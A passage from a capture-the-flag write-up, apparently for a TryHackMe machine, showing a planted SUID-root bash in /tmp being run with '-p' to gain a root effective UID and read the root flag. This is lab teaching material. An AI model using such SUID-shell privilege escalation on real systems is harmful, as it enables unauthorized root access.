 ### Checking if the file exists
```console
lennie@startup:~/scripts$ ls -la /tmp/bash
-rwsr-xr-x 1 root root 1037528 Nov  9 08:49 /tmp/bash
```
The file exists and it is own by root with SUID bit set.

## Getting a root shell
```console
lennie@startup:~/scripts$ /tmp/bash -p
bash-4.3# id
uid=1002(lennie) gid=1002(lennie) euid=0(root) groups=1002(lennie)
bash-4.3# 
```
\-p flag should be used while executing the binary. Without it, the permissions will be dropped from root user to normal user.
And we can see that our effective UID(euid) is 0 which means root.

## Reading root flag
```console
bash-4.3# cat /root/root.txt 
THM{f963aaa*********15c3d76d}
```

